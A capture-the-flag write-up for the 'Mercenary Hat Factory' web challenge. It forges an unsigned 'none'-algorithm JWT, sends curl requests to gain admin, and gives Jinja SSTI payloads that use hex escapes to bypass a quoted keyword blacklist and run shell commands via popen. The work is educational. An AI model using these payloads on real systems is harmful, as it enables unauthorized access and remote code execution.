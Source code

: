 # Mercenary Hat Factory

## Solution

1. first, the server.py is provided, after analyze it, we can find there are three steps to get the flag 
2. Step 1 : 
    we have to let our account be admin, after register in the website, we can see in cookie, which is a jwt token, we can use jwt.io to decode, we get some thing like ****{ “type”: “user”, “user”: “tom”}****
    use python to get encoded string whose type is admin
    ```
    jwt.encode({ “type”: “admin”, “user”: “tom” },’’,algorithm=”none”)
    ```
    the string is 
    ```        
    b’eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ0eXBlIjoiYWRtaW4iLCJ1c2VyIjoibW9oIn0.’
    ```
    now we are level 1 user.
    ![](https://i.imgur.com/vCHaCxl.png)

3. Step 2 : 
    we have to let our account in authorizedAdmin, first set our previlegeCode, and enter
    ```
    curl -X POST http://challs.xmas.htsp.ro:11005/authorize?step=1 — data ‘privilegeCode=100’ -H ‘Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ0eXBlIjoiYWRtaW4iLCJ1c2VyIjoibW9oIn0.;Path=/;Domain=challs.xmas.htsp.ro’ -H ‘Content-Type: application/x-www-form-urlencoded’ ; 
    curl -X POST http://challs.xmas.htsp.ro:11005/authorize?step=2 — data ‘accessCode=72tom100100’ -H ‘Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ0eXBlIjoiYWRtaW4iLCJ1c2VyIjoibW9oIn0.;Path=/;Domain=challs.xmas.htsp.ro’ -H ‘Content-Type: application/x-www-form-urlencoded’
    ```
    now we are level 2 user
    ![](https://i.imgur.com/aJzqFa4.png)

    
4. Step3, we can try to use SSTI (server side template injection), first we can try 
    ```
    {{ ().__class__.__base__.__subclasses__() }}
    ```
    but we can see there's a filter to avoid SSTI attack  in server.py
    ```
    blacklist = [“config”, “self”, “request”, “[“, “]”, ‘“‘, “_”, “+”, “ “, “join”, “%”, “%25”]
    ```
    we can translate these words into escape characters to bypass. ex '_' to '\x5f'. After successfully inject, we can see these classes
    ```
    <class ‘warnings.WarningMessage’>
    <class ‘warnings.catch_warnings’>
    <class ‘subprocess.Popen’>
    <class ‘os._wrap_close’>
    ```
5. Finally, we can use the os._wrap_close class to execute shell code, first use 'ls -a' to see the files 
    ```
    {{()|attr(‘\x5f\x5fclass\x5f\x5f’)[]attr(‘\x5f\x5fbase\x5f\x5f’)|attr(‘\x5f\x5fsubclasses\x5f\x5f’)()|attr(‘\x5f\x5fgetitem\x5f\x5f’)(127)|attr(‘\x5f\x5finit\x5f\x5f’)|attr(‘\x5f\x5fglobals\x5f\x5f’)|attr(‘\u005f\u005fgetitem\u005f\u005f’)(‘popen’)(‘ls${IFS}-la’)|attr(‘read’)()}}
    ```
     ![](https://i.imgur.com/xxtYQQM.png)
     we can see there's unusual_flag.mp4 in the folder, then use
     ```
     {{()|attr(‘\x5f\x5fclass\x5f\x5f’)|attr(‘\x5f\x5fbase\x5f\x5f’)|attr(‘\x5f\x5fsubclasses\x5f\x5f’)()|attr(‘\x5f\x5fgetitem\x5f\x5f’)(127)|attr(‘\x5f\x5finit\x5f\x5f’)|attr(‘\x5f\x5fglobals\x5f\x5f’)|attr(‘\u005f\u005fgetitem\u005f\u005f’)(‘popen’)(‘base64<unusual\x5fflag.mp4’)|attr(‘read’)()}}
     ```
     new we can get the mp4 file, and flag is in the video.
     ![](https://i.imgur.com/p9jLNE6.png)

